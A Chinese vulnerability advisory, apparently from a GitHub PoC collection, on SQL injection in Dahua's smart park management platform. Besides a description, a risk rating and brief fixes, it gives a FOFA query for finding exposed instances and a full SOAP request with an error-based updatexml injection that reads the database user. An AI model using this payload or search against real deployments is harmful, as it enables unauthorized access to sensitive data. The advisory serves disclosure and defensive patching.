

# 关于大华智慧园区综合管理平台 getNewStaypointDetailQuery SQL注入漏洞预警

# 漏洞描述

由于大华[智慧园区](https://so.csdn.net/so/search?q=智慧园区&spm=1001.2101.3001.7020)综合管理平台getNewStaypointDetailQuery接口处未对用户的输入进行[有效的](https://so.csdn.net/so/search?q=有效的&spm=1001.2101.3001.7020)过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。远程未授权攻击者可利用此漏洞获取敏感信息，进一步利用可能获取目标系统权限。

# 影响范围

大华智慧园区综合管理平台

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="dahua-智慧园区综合管理平台"

POC/EXP：

POST /portal/services/carQuery/getNewStaypointDetailQuery HTTP/1.1
Host: 127.0.0.1:9080
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: text/xml;charset=UTF-8

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:car="http://carQuery.webservice.dssc.dahua.com">
<soapenv:Header/>
<soapenv:Body>
<car:getNewStaypointDetailQuery>
<!--type: string-->
<searchJson>{}</searchJson>
<!--type: string-->
<pageJson>{"orderBy":"1 and 1=updatexml(1,concat(0x7e,(select user()),0x7e),1)--"}</pageJson>
<!--type: string-->
<extend>quae divum incedo</extend>
</car:getNewStaypointDetailQuery>
</soapenv:Body>
</soapenv:Envelope

报错查用户

# 修复方案

**官方修复：**

限制访问来源地址，如非必要，不要将系统开放在互联网上。

 升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
